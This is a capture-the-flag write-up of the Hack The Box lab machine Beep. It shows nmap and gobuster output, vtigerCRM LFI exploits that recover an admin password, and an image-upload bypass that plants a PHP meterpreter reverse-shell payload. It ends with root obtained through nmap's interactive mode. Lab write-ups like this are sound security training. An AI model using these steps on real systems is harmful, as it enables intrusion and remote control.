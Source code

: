 ```yaml
---
layout: post
title: Beep(HTB)
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.7

**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -A 10.10.10.7</p>

<p>Starting Nmap 7.50 ( https://nmap.org ) at 2018-03-03 04:36 EST
<br>Nmap scan report for 10.10.10.7
<br>Host is up (0.16s latency).
<br>Not shown: 988 closed ports
<br>PORT      STATE SERVICE    VERSION
<br><font color="BB69EC">22/tcp</font>    open  <font color="53E100">ssh</font>         OpenSSH 4.3 (protocol 2.0)
<br>| ssh-hostkey: 
<br>|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
<br>|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
<br><font color="BB69EC">25/tcp</font>    open  <font color="53E100">smtp</font>        Postfix smtpd
<br>|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
<br><font color="BB69EC">80/tcp</font>    open  <font color="53E100">http</font>        Apache httpd 2.2.3
<br>|_http-server-header: Apache/2.2.3 (CentOS)
<br>|_http-title: Did not follow redirect to https://10.10.10.7/
<br><font color="BB69EC">110/tcp</font>   open  <font color="53E100">pop3</font>        Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
<br><font color="BB69EC">111/tcp</font>   open  <font color="53E100">rpcbind</font>     2 (RPC #100000)
<br>| rpcinfo: 
<br>|   program version   port/proto  service
<br>|   100000  2            111/tcp  rpcbind
<br>|   100000  2            111/udp  rpcbind
<br>|   100024  1            742/udp  status
<br>|_  100024  1            745/tcp  status
<br><font color="BB69EC">143/tcp</font>   open  <font color="53E100">imap</font>       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
<br>|_imap-capabilities: Completed OK ATOMIC URLAUTHA0001 RIGHTS=kxte IMAP4rev1 THREAD=ORDEREDSUBJECT LITERAL+ ANNOTATEMORE LIST-SUBSCRIBED CONDSTORE UIDPLUS CATENATE BINARY MAILBOX-REFERRALS LISTEXT IDLE RENAME ID IMAP4 QUOTA X-NETSCAPE THREAD=REFERENCES SORT=MODSEQ SORT CHILDREN NAMESPACE MULTIAPPEND STARTTLS NO ACL UNSELECT
<br><font color="BB69EC">443/tcp</font>   open  <font color="53E100">ssl/http</font>   Apache httpd 2.2.3 ((CentOS))
<br>| http-robots.txt: 1 disallowed entry 
<br>|_/
<br>|_http-server-header: Apache/2.2.3 (CentOS)
<br>|_http-title: Elastix - Login page
<br>| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
<br>| Not valid before: 2017-04-07T08:22:08
<br>|_Not valid after:  2018-04-07T08:22:08
<br>|_ssl-date: 2018-03-03T09:21:37+00:00; -19m56s from scanner time.
<br><font color="BB69EC">993/tcp</font>   open  <font color="53E100">ssl/imap</font>   Cyrus imapd
<br>|_imap-capabilities: CAPABILITY
<br><font color="BB69EC">995/tcp</font>   open  <font color="53E100">pop3</font>Cyrus pop3d
<br><font color="BB69EC">3306/tcp</font>  open  <font color="53E100">mysql</font>      MySQL (unauthorized)
<br><font color="BB69EC">4445/tcp</font>  open  <font color="53E100">upnotifyp?</font>
<br><font color="BB69EC">10000/tcp</font> open  <font color="53E100">http</font>       MiniServ 1.570 (Webmin httpd)
<br>|_http-server-header: MiniServ/1.570
<br>|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
<br>OS:SCAN(V=7.50%E=4%D=3/3%OT=22%CT=1%CU=41868%PV=Y%DS=2%DC=T%G=Y%TM=5A9A6E1C
<br>OS:%P=i686-pc-linux-gnu)SEQ(SP=CB%GCD=2%ISR=CD%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=C
<br>OS:B%GCD=1%ISR=CC%TI=Z%CI=Z%TS=A)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DN
<br>OS:NT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=16A0%W2=16A0%W3
<br>OS:=16A0%W4=16A0%W5=16A0%W6=16A0)ECN(R=Y%DF=Y%T=40%W=16D0%O=M54DNNSNW7%CC=N
<br>OS:%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=Y%DF=Y%T=40%W=16A
<br>OS:0%S=O%A=S+%F=AS%O=M54DST11NW7%RD=0%Q=)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O
<br>OS:=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40
<br>OS:%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q
<br>OS:=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y
<br>OS:%DFI=N%T=40%CD=S) </p>

<p>Network Distance: 2 hops
<br>Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com</p>

<p>Host script results:
<br>|_clock-skew: mean: -19m56s, deviation: 0s, median: -19m56s</p>

<p>TRACEROUTE (using port 199/tcp)
<br>HOP RTT       ADDRESS
<br>1   167.17 ms 10.10.14.1
<br>2   167.42 ms 10.10.10.7</p>

<p>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 390.20 seconds
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># </p>

</div>
</font>

<br>**Web**:-
<br>On port 80 Elastix Service is running
![1](https://teckk2.github.io/assets/images/Beep/1.JPG)

<br>**Gobuster**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># gobuster -e -u https://10.10.10.7/ -t 500 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt </p>

<p>Gobuster v1.2                OJ Reeves (@TheColonial)
<br>=====================================================
<br>[+] Mode         : dir
<br>[+] Url/Domain   : https://10.10.10.7/
<br>[+] Threads      : 500
<br>[+] Wordlist     : /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
<br>[+] Status codes : 200,204,301,302,307
<br>[+] Expanded     : true
<br>=====================================================
<br>https://10.10.10.7/help (Status: 301)
<br>https://10.10.10.7/modules (Status: 301)
<br>https://10.10.10.7/themes (Status: 301)
<br>https://10.10.10.7/lang (Status: 301)
<br>https://10.10.10.7/static (Status: 301)
<br>https://10.10.10.7/admin (Status: 301)
<br>https://10.10.10.7/images (Status: 301)
<br>https://10.10.10.7/var (Status: 301)
<br>https://10.10.10.7/mail (Status: 301)
<br>https://10.10.10.7/panel (Status: 301)
<br>https://10.10.10.7/libs (Status: 301)
<br>https://10.10.10.7/recordings (Status: 301)
<br>https://10.10.10.7/configs (Status: 301)
<br><font color="ffff00">https://10.10.10.7/vtigercrm</font> (Status: 301)
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># </p>

</div>
</font>
.
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># gobuster -e -u https://10.10.10.7/vtigercrm/ -t 500 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt </p>

<p>Gobuster v1.2                OJ Reeves (@TheColonial)
<br>=====================================================
<br>[+] Mode         : dir
<br>[+] Url/Domain   : https://10.10.10.7/vtigercrm/
<br>[+] Threads      : 500
<br>[+] Wordlist     : /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
<br>[+] Status codes : 200,204,301,302,307
<br>[+] Expanded     : true
<br>=====================================================
<br>https://10.10.10.7/vtigercrm/test (Status: 301)
<br>https://10.10.10.7/vtigercrm/storage (Status: 301)
<br>https://10.10.10.7/vtigercrm/themes (Status: 301)
<br>https://10.10.10.7/vtigercrm/license (Status: 301)
<br>https://10.10.10.7/vtigercrm/modules (Status: 301)
<br>https://10.10.10.7/vtigercrm/database (Status: 301)
<br>https://10.10.10.7/vtigercrm/cache (Status: 301)
<br>https://10.10.10.7/vtigercrm/include (Status: 301)
<br>https://10.10.10.7/vtigercrm/packages (Status: 301)
<br>https://10.10.10.7/vtigercrm/Image (Status: 301)
<br>https://10.10.10.7/vtigercrm/backup (Status: 301)
<br>https://10.10.10.7/vtigercrm/data (Status: 301)
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># </p>

</div>
</font>

<br>There is an interesting directory /vtigercrm for which we can look for
![2](https://teckk2.github.io/assets/images/Beep/2.JPG)
<br>After searching I found LFI exploits for [vtigerCRM](https://www.exploit-db.com/exploits/18770/), and [Vtiger login](https://www.exploit-db.com/exploits/37637/) which we can use to read user flag and get admin credentials.

**User Flag** :-
![3](https://teckk2.github.io/assets/images/Beep/3.JPG)
<br>The username is **fanis**
![4](https://teckk2.github.io/assets/images/Beep/4.JPG)
<br>Now using the second LFI exploit we can read the Admin credentials
![5](https://teckk2.github.io/assets/images/Beep/5.JPG)
<br>Now read lines one by one untill you find the correct password
![6](https://teckk2.github.io/assets/images/Beep/6.JPG)
<br>Username = **admin**
<br>Password = **jEhdIekWmdjE**
<br>Using this credential we can login to VtigerCRM dashboard as Admin
![7.1](https://teckk2.github.io/assets/images/Beep/7.1.JPG)

<br>**Shell**
<br>GO to Settings>Company Details> click on Edit and you will notice we can upload any image in place of company logo
<br> First Generate a php payload, Now to upload your php file in place for company logo we have to add **;.jpg** after **.php** to bypass browser image file upload restriction
![9](https://teckk2.github.io/assets/images/Beep/9.JPG)
<br>So first browse the file and select it after that click on save and capture the post request on burp
![10](https://teckk2.github.io/assets/images/Beep/10.JPG)
<br>Now edit it and remove the ;.jpg and forward the request
![11](https://teckk2.github.io/assets/images/Beep/11.JPG)
<br>make sure the file has been uploaded successfully
![12](https://teckk2.github.io/assets/images/Beep/12.JPG)
<br>Now set up the listner and go to the file location [https://10.10.10.7/vtigercrm/test/logo/beep.php](https://10.10.10.7/vtigercrm/test/logo/beep.php) and we will get the meterpreter shell.

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p>msf > use exploit/multi/handler 
<br>msf exploit(<font color="red">handler</font>) > set payload php/meterpreter/reverse_tcp
<br>payload => php/meterpreter/reverse_tcp
<br>msf exploit(<font color="red">handler</font>) > set LHOST 10.10.*.*
<br>LHOST => 10.10.14.10
<br>msf exploit(<font color="red">handler</font>) > set LPORT 4455
<br>LPORT => 4455
<br>msf exploit(<font color="red">handler</font>) > exploit </p>

<p><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.10.*.*:4455 
<br><font color="RoyalBlue">[*]</font> Starting the payload handler...
<br><font color="RoyalBlue">[*]</font> Sending stage (33986 bytes) to 10.10.10.7
<br><font color="RoyalBlue">[*]</font> Meterpreter session 1 opened (10.10.*.*:4455 -> 10.10.10.7:39251) at 2018-03-03 08:33:58 -0500</p>

<p>meterpreter > getuid
<br>Server username: asterisk (100)
<br>meterpreter > sysinfo 
<br>Computer&nbsp;&nbsp;&nbsp;&nbsp;: beep
<br>OS&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: Linux beep 2.6.18-238.12.1.el5 #1 SMP Tue May 31 13:23:01 EDT 2011 i686
<br>Meterpreter&nbsp;: php/linux
<br>meterpreter > </p>

</div>
</font>

**Privilege Escalation**

<br>User asterisk have root access to nmap, and the nmap version is 4.11 which can give us root shell using nmap interactive mode.

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p>meterpreter > shell
<br>Process 6593 created.
<br>Channel 0 created.
<br>id
<br>uid=100(asterisk) gid=101(asterisk) groups=101(asterisk)
<br>python -c 'import pty;pty.spawn("/bin/bash")'
<br>bash-3.2$ sudo -l
<br>sudo -l
<br>Matching Defaults entries for asterisk on this host:
<br>&nbsp;&nbsp;&nbsp;&nbsp;env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
<br>&nbsp;&nbsp;&nbsp;&nbsp;LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
<br>&nbsp;&nbsp;&nbsp;&nbsp;LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
<br>&nbsp;&nbsp;&nbsp;&nbsp;LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
<br>&nbsp;&nbsp;&nbsp;&nbsp;XAUTHORITY"</p>

<p>User asterisk may run the following commands on this host:
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /sbin/shutdown
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /usr/bin/nmap
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /usr/bin/yum
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /bin/touch
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /bin/chmod
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /bin/chown
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /sbin/service
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /sbin/init
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /usr/sbin/postmap
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /usr/sbin/postfix
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /usr/sbin/saslpasswd2
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /usr/sbin/hardware_detector
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /sbin/chkconfig
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /usr/sbin/elastix-helper
<br>bash-3.2$ cd /usr/bin/    
<br>cd /usr/bin/
<br>bash-3.2$ nmap -version
<br>nmap -version</p>

<p>Nmap version 4.11 ( http://www.insecure.org/nmap/ )
<br>bash-3.2$ sudo nmap --interactive
<br>sudo nmap --interactive</p>

<p>Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
<br>Welcome to Interactive Mode -- press h <enter> for help
<br>nmap> !sh
<br>!sh
<br>sh-3.2# id
<br>id
<br>uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
<br>sh-3.2# cd /root
<br>cd /root
<br>sh-3.2# cat root.txt
<br>cat root.txt
<br><font color="53E100">********************************</font>
<br>sh-3.2# </p>

</div>
</font>


<p class="message">
  ~ Hack the World and Stay Noob
</p>

[Twitter](https://twitter.com/Teck__K2) / [Hack The Box](https://www.hackthebox.eu/profile/966) / [CTF Team](https://ctftime.org/team/20102) /
[Teck_N00bs Community Telegram](https://t.me/Teck_N00bs)

<script src="https://www.hackthebox.eu/badge/966"> </script>

